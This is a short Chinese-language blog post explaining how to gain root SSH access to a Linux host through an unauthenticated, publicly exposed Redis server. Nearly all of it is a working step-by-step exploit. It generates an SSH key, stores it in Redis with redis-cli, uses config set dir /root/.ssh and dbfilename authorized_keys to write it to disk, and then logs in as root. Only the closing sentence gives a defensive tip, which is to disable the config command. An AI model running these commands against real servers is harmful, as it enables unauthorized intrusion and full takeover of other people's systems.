 ```yaml
---
layout: post
title: "通过redis漏洞入侵系统"
date: 2018-03-06
comments: false
categories: 运维
---
```


熟悉linux ssh应该知道可以在authorized_keys添加自己的共有密钥以达到免密码登录系统的目的。本文将展现如何通过redis漏洞达到入侵系统的目的。

### 前提

redis 开放端口：0.0.0.0:6379

```bash
smou:_posts $ ps x|grep redis
29251   ??  S      0:00.04 /usr/local/opt/redis/bin/redis-server 0.0.0.0:6379
```

### 入侵过程

##### 1. 创建公钥~/.ssh/id_rsa.pub，有则跳过
```bash
ssh-keygen -t rsa
```
一路确认就行

##### 2. 生成前面带有双换行的临时文件
进入~/.ssh/
```bash
echo -n -e '\n\n' > 2 && cat id_rsa.pub >>2
```

##### 3. 入侵

```bash
# 设置key, crackit = 2文件内容
cat 2 | redis-cli -h 192.168.12.101 -x set crackit 

# 连接服务器
redis-cli -h 192.168.12.101

# 设置目录（注意是用户的home目录，不一定root）
config set dir /root/.ssh

# 设置文件名
config set dbfilename authorized_keys

# 保存
save
```

##### 4. 登录

这时候通过 ssh root@192.168.12.101 就能进入系统，接下来就可以为所欲为.

### 总结

所以使用redis，注意关闭config功能，否则，就要等着哭了。
